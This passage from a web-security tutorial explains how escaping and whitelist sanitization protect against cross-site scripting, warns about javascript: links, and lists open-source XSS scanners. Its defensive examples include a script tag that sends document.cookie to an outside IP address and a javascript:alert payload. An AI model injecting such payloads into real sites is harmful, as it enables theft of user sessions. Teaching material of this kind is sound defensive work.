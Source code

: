 **Escaping String Input** <br>
By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).
In the above example, the comment section will become like this: 
> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph! <br>
I **like** your photograph! <br>
This is an innocent looking comment. `<script>sendToServer("http://139.241.0.3/", document.cookie)</script>`

The `<script>` and `</script>` will be displayed as text rather than being run as `JavaScript` by the browser.

**Whitelist Sanitization** <br>
By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

*Note that these two ways alone are not enough to protect your web application against XSS attacks. Sophisticated attacks will make use of the different possible user inputs to inject code or illegal characters that are not limited to `<script>...</script>`. It is important to note where the user input is going to be generated in the output.*

For example, if you are building a profile page and allow user to add their own links to certain buttons:

`<a href="{user input link}">...</a>`

If a malicious user submits the following as input: 

`javascript:alert("XSS!")`

It will result in the button running the javascript code when pressed → <a href="javascript:alert('XSS!')"><span class="glyphicon glyphicon-user"></span></a> 

You can also consider using XSS scanning tools to check whether your web application is vulnerable. Below are links of some open-source XSS scanning tools: 

1. http://wapiti.sourceforge.net/ (Web Application Vulnerability Scanner)
1. http://w3af.org/ (Web Application Attack and Audit Framework)
1. https://www.arachni-scanner.com/ (Web Application Security Scanner Framework)

## Where to go from here?

Although XSS is the most common web application vulnerability, there are also many other types of vulnerabilities. It is important to be aware of them to properly secure your web application. Here is a statistical 
<a href="https://www.ptsecurity.com/upload/corporate/ww-en/analytics/Web-application-attacks-2018-eng.pdf" target="_blank">report</a> on web application vulnerabilities and a graphical summary retrieved from it: 
